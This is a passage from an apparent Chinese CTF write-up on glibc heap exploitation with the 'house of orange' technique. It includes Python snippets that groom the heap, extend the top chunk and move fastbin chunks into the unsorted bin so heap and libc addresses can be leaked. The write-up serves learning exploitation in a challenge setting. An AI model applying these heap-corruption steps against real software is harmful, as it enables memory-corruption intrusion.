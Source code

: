 但是这个时候只有一个chunk，house of orange需要堆基址泄露，需要在unsorted bin中构造两个chunks，怎么办？

emm这个又是一个卡了我很久的地方，本来想house of orange把top chunk变成unsorted bin结果发现这个top chunk太小（最多只能0x80，因为程序限制最大malloc的大小为0x80，即最大能分配的chunk大小为0x90，而house of orange相当于free掉top chunk，所以这个大小会直接被塞到fastbin里面去。有趣的是，如果top chunk大小为0x70，他并不会把chunk直接塞到0x70的fastbin中，而是会塞到0x50的fastbin中，并且分割出两个0x10的chunk，没错就是0x10的chunk，不知道为什么，有大神知道可以讨论一下）

然后我又试了另一个方法，就是如果不能构造两个unsorted bin的chunk，构造两个fastbin的chunk也能leak堆，但是此时发现了一个很神奇的事情，如果此时堆中有一个0x50的chunk，top chunk为0x70，此时`malloc(0x80)`，理论上来讲根据上面所说会把这个0x70分出两个0x10的chunk并且把剩下的0x50的chunk塞到fastbin，此时理论上来讲会0x50的fastbin会有两个chunk，但是神奇的是，`malloc(0x80)`调用完后，原来在fastbin的0x50的chunk被移到了unsorted bin，所以0x50的fastbin还是只有一个chunk。。。我的猜想是，无论是consolidate top chunk，还是extend堆换top chunk，都会对fastbin做清理并且移到unsorted bin，当然这只是猜想，具体的要看libc源码才能了解透。。。

最后就是成功leak的方法了，首先extend堆是肯定要的，所以最开始要把堆先往右边"shift"一下

```python
# ----------shift the heap to let top chunk + modified size page aligned----
for i in xrange(0,((0x1000-0x230)/0x20)-3): # 参数自己试出来的
	print i
	malloc_until(0x10, "\x00")
```

这样最后就能在`malloc_until(0, "A" * 0x18 + p64(0x71))`的时候让top chunk是0xXXX071，这样就可以保证`top chunk + size`是page align的

接下来我就想，如何在unsorted bin构造两个chunks，如果是house of orange的extend堆的方法的话，那么是否可以在新的堆区塞一个chunk到unsorted bin中呢？因为这样就不会merge了。

答案是对的，同样是用之前的方法，把fastbin里面的东西放到unsorted bin中

```python
# -------------leak libc and heap------------------------
malloc_until(0x70, "\x00")
malloc_until(0x70, "\x00")
malloc_until(0x70, "\x00")
# 3 from unsorted bin, which is size 0x20 now
# and top chunk size is 0x70
malloc_until(0x20, "\x00")
# consume unsorted bin to size 0x60

malloc_until(0x80, "\x00")
# mmap to new heap segment
# 这里extend堆，因为top chunk只有0x70不够分配，而且unsorted bin也不够

for x in xrange(0x6,0x8):
	malloc_until(x * 0x10, "\x00")
	free()
    #只分配0x70到0x80的chunk是为了只从新的top chunk里面拿

malloc_until(0x70, "\x00")#分割，防止全merge一起
malloc_until(0x80, "\x00")
free()#这里top chunk会consolidate，所以0x60和0x80的fastbin会到unsorted bin里去
```

跟前面那个类似。只不过前面那个top chunk是0x70，`malloc_until`会从fastbin的chunks那边拿（注意不是直接拿fastbin的chunk，可以理解为从fastbin merge后的大chunk中拿）；而这个会从top chunk里面拿，consolidate的时候再把fastbin的那些chunks转成unsorted bin。。不过结果都是把fastbin的chunks变成unsorted bin就是了。。
